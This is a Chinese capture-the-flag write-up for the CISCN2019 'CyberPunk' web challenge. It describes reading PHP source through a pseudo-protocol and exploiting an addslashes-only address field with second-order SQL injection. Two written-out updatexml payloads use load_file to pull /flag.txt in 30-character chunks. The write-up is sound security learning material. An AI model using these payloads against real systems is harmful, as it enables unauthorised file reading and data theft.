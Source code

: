 ```yaml
---
title: '[CISCN2019 华北赛区 Day1 Web5]CyberPunk'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-12 22:08:02
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1094165.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720200812221432.jpg)

查看源码在最后发现了提示：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200812221726.png)

尝试用伪协议读取源码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200812221936.png)

用同样的方式读取其他各个页面的源码：

以change.php为例：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200812222859.png)

可以看到对SQL注入做了比较严的过滤，但是，这过滤并没有针对address，address却只是进行了简单的转义。
之前留言板那道题已经遇到过一次了，看到这个addslashes果断想到二次注入。
利用updatexml：
先读前30位：1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
再读最后几位：1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60)),0x7e),1)#
因为updatexml这个函数最多显示32位，所以要分两次读。


